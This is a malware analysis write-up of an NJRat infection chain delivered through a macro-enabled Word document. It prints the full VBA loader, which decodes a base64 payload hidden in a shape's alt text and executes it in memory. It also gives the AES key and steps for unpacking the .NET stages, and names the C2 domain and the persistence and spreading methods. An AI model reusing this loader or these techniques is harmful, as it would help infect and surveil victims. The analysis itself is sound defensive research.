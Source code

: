 ```yaml
---
tags: RATs
---
```

## NJRat Injection From Malicious Document

Another RAT variant, NJRat is typically attributed to ECRime actors, it is supposedly popular with actors in the Middle East. It's primary infection vectors are phishing attacks and drive-by downloads, and like many other RATs, it has the capability to log keystrokes, access the victim's camera, steal credentials stored in browsers, open a reverse shell, upload/download files, view the victim's desktop, perform process, file, and registry manipulations, etc...

This sample was taken from the following [tweet](https://twitter.com/DmitriyMelikov/status/1696050783790207060)

[-] Maldoc [VirusTotal](https://www.virustotal.com/gui/file/12237938501141149337015c546b5e02acf3b98c1c26a84b5b4befd97d0f66d0/detection)

[-] PE Payload [VirusTotal](https://www.virustotal.com/gui/file/66702e21faa38c24f49a33112d2036d8f3b6bcfd686db47299a4dc44dedf13d8/detection)

## Maldoc

Like most other maldocs which leverage macros, the document lures the user into enabling content.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/da75e6b8-26e0-4d18-ba83-fd86a19bcdd9)

We can interrogate this macro by using OLE tools to view it.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c521ee37-e76b-4b24-b3f7-7bf4dd102d94)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/66db0700-4e12-4eba-94e4-6621bb1b38d7)

```
Attribute VB_Name = "Module1"
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal six As Long, ByVal five As Long, ByVal four As LongPtr, three As Long, ByVal two As Long, one As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal seven As Long, ByVal eight As Long, ByVal nine As Long, ByVal ten As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal eleven As LongPtr, ByVal twelve As LongPtr, ByVal thirteen As Long) As LongPtr
Public Function db(base64) As Byte()
  Dim DM As Variant, EL As Variant
  Set DM = CreateObject("Microsoft.XMLDOM")
  Set EL = DM.createElement("tmp")
  EL.DataType = "bin.base64"
  EL.Text = base64
  db = EL.NodeTypedValue
End Function

Sub autoopen()
    Dim var2() As Byte
    Dim var4 As LongPtr
    Variables = ActiveDocument.InlineShapes(1).AlternativeText
    var2 = db(Variables)
    var6 = VirtualAlloc(0, UBound(var2), &H1000, &H40)
    var4 = RtlMoveMemory(var6, VarPtr(var2(0)), UBound(var2))
    var4 = CreateThread(0, 0, var6, 0, 0, 0)

   ActiveDocument.Range.Font.Hidden = False
End Sub
```

Essentially, a Base64 string is being taken from ActiveDocument.InlineShapes(1).AlternativeText and decoded, we can assess that the contents are then executed in memory using CreateThread, VirtualAlloc and RtlMoveMemory API calls.

The base64 string is hidden inside a text box on the first page of the document, utilising the Alternative Text field

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/4c944195-0f30-4bdb-bf49-6967865241bd)

I found the full string by querying the 'Data' stream, using OLE tools.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/fe007626-91e1-4cc1-b51f-5667a6ddfdf0)

_Base64 Snippet:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/53b37b49-c1de-4051-83c8-fae9faddce0c)


Once this code is injected and executed, it drops a PE in the location 'C:\Users\george\AppData\Roaming\netflex\netflex.exe', as well as employing some persistence mechanisms, such as a vbs script in the startup folder and a registry run key.

## 1st Executable 

Taking a look at the dropped 'netflex.exe' in DNSpy, there are a few things to note.

Firstly, the binary does a basic check to decide if the host is in a virtualised environment by querying Win32_CacheMemory

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6882b2c3-d2b7-4700-b20d-9296049a7200)

If there is a value for Win32_CacheMemory, the program assumes the host is not a virtual machine and will execute the next function.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/af3e374a-7c42-4e6f-8775-aae8ad36c471)

The first line derives an AES key by getting the SHA 256 value of Settings.aes_key and taking the first 32 bytes.

The second line takes the contents of baseData, converts it from base64, decompresses the data with the Decompress function, decrypts the data and finally base64 decodes the unencrypted data.

_Decompress Function_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/a0e449f9-0ef4-4d75-b12f-19acbe97c7dd)

The key point here is that the first 4 bytes of baseData declare the length of the data and are not needed for decompression.

The Settings class is compromised of 3 key components, baseData, aes_key and aes_iv.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/1f4f0997-0af7-488a-bfde-bdd9bfda3e2d)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6f646fb8-e4a7-4d4b-b7db-b210541829ea)

We now have everything needed to decrypt the base64 string.

1) Copy and paste the baseData string, convert it from base64.
   
2) Remove the first 4 bytes
   
3) Decompress with Gunzip
   
4) AES decrypt with base64 key "78e3e7cc513ff8ae00a177366efa4060" _(First 32 bytes of the SHA 256 value of'Q4NP7JPHRA5AJB28')_
   
5) Decode from base64

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/aa810be8-fab3-4223-bf4a-7d1de792bfdd)

This leaves us with another .NET executable.

## 2nd Executable

Within this executable, we can see the C2 domain and installation directory being declared: netflex.duckdns[.]org:2255

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6f7fd25f-61d4-4658-bfac-a22c4f894da3)

There is also the capability for replication across removable media drives.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/381c8cc6-fca3-42da-ad73-5d1b4f3e790f)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/8eb4112f-fa44-46a2-924a-711cf073aca0)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b47f825d-f9e8-4a07-b3be-14859f79be54)

And previously noted registry run key additions.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d6b7e8d2-0be3-448d-9eb2-f1bb0ec4b51c)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d7224c19-bd8c-4827-a730-1183d14bfcc3)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f4bf9291-5090-486c-bffd-33e51d3adcc3)

As well as the binary being copied to the Startup directory.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/27e7f7c9-0c18-4648-9119-7acc0357a85d)

















